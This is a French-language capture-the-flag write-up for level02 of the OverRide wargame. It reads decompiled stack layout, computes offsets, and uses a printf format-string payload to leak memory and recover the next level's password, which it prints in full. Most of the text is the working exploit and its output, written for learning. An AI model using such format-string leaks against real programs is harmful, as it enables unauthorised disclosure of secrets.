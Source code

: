 ## Solution

Dans le code source on peu constater plusieur point :

un printf mal formater est utiliser, il affiche la variable local_78
la variable local_a8 contient le mot de passe du level3

On va donc essayer d'exploiter printf pour afficher la variable local_a8 :

```
    undefined8 __stdcall main(void)
    undefined8        RAX:8          <RETURN>
    undefined8        Stack[-0x10]:8 local_10                                XREF[5]:     00400889(W), 
    004008ad(W), 
    004008b1(R), 
    004008ed(R), 
    0040097d(R)  
    undefined4        Stack[-0x14]:4 local_14                                XREF[3]:     00400891(W), 
    00400906(W), 
    00400925(R)  
    undefined4        Stack[-0x78]:4 local_78                                XREF[6]:     0040082c(*), 
    00400843(*), 
    004009cd(*), 
    004009de(*), 
    00400a71(*), 
    00400a96(*)  
    undefined1        Stack[-0xa8]:1 local_a8                                XREF[5]:     00400849(*), 
    00400863(*), 
    004008e6(*), 
    00400909(*), 
    00400a51(*)  
    undefined4        Stack[-0x118   local_118                               XREF[5]:     00400869(*), 
    00400883(*), 
    00400a10(*), 
    00400a24(*), 
    00400a4a(*)  
    undefined4        Stack[-0x11c   local_11c                               XREF[1]:     0040081f(W)  
    undefined8        Stack[-0x128   local_128                               XREF[1]:     00400825(W)  
```

Ici local_a8 est a a8 de distance avec le haut de la stack 
a8 = 168 bytes de distance
168 / 8 (ou 4 sur architecture de 32bits) = 21

21 + 5 (les argument de l'appel de printf) = 26

le mot de passe fait fait une taille de 0x29 donc 41 en decimal, ce qui fait 5 print 

### Payload
```
%26$p %25$p %24$p %23$p %22$p
```
```
----------------------------------------------------------------
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %26$p %25$p %24$p %23$p %22$p    
--[ Password: 
*****************************************
0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848 does not have access!
```

On retire les 0x et les espace :
```
48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848 -> in ASCII -> H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH
```
on inverse et cela donne :
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```